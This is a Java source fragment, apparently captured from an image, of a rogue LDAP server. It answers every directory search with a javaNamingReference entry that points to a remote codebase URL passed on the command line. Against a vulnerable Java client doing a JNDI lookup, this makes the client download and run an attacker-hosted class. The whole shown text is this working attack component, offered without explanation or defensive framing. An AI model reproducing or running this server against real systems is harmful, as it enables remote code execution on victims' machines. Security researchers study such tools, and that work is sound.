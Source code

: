 ```
        int port = 7777;

        try `{`
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", //$NON-NLS-1$
                    InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[ 0 ])));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
            ds.startListening();

        `}`
        catch ( Exception e ) `{`
            e.printStackTrace();
        `}`
    `}`

    private static class OperationInterceptor extends InMemoryOperationInterceptor `{`

        private URL codebase;

        public OperationInterceptor ( URL cb ) `{`
            this.codebase = cb;
        `}`

        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) `{`
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try `{`
                sendResult(result, base, e);
            `}`
            catch ( Exception e1 ) `{`
                e1.printStackTrace();
            `}`
        `}`

        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException `{`
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos &gt; 0 ) `{`
                cbstring = cbstring.substring(0, refPos);
            `}`
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        `}`
    `}`
`}`
```